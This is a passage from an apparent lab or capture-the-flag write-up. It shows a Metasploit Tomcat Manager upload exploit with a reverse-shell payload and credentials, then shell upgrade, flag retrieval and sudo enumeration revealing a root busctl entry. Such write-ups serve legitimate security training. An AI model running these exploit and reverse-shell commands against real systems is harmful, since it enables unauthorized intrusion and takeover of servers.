 #### Attacking Tomcat Application

![Firefox - Tomcat Manager Login](./assets/screenshots/linux_privilege_escalation_skills_assessment_02.png)

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x 'use exploit/multi/http/tomcat_mgr_upload; set PAYLOAD java/shell_reverse_tcp; set RHOSTS 10.129.235.16; set RPORT 8080; set LHOST 10.10.15.186; set LPORT 1337; set HttpUsername tomcatadm; set HttpPassword T0mc@t_s3cret_p@ss!; exploit'

[SNIP]

[*] Meterpreter session 1 opened (10.10.15.186:1337 -> 10.129.235.16:60082) at 2025-07-30 08:57:43 -0500

python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
tomcat@nix03:/var/lib/tomcat9$ id

uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

```
tomcat@nix03:/var/lib/tomcat9$ cat /var/lib/tomcat9/flag4.txt

LLPE{******************* 📌
```

#### Linux Privilege Escalation Abusing Special Permissions

```
tomcat@nix03:/var/lib/tomcat9$ sudo -l

[SNIP]

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
```
